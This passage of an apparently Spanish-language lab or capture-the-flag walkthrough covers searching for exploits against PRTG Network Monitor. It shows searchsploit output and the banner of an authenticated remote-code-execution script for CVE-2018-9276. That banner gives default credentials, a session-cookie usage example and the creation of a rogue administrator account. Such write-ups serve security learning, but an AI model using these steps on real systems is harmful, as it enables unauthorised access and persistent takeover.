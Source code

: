 
<h2 id="Exploit">Buscando y Analizando Exploit</h2>

Una vez dentro, ya podemos buscar un Exploit que nos sirva porque ya tenemos la versión que esta usando el **servicio PRGT**:
```bash
searchsploit prtg
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                        | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                                                       | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)                                    | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                                                     | java/webapps/34108.txt
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vamos a analizar este Exploit: **PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution**.
```bash
./Remote_Code_Execution.sh

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
